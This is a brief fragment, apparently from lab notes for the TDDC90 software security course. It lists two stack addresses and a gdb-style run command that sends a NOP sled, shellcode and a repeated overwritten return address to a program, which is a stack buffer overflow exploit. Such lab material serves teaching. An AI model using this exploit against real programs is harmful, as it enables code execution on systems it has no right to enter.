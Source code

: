 # TDDC90

0xbffff604

0xbffff4a4

run -I $(cat nopsled shellcode & perl -e 'print "\xa4\xf4\xff\xbf"x50') 224.224.224.224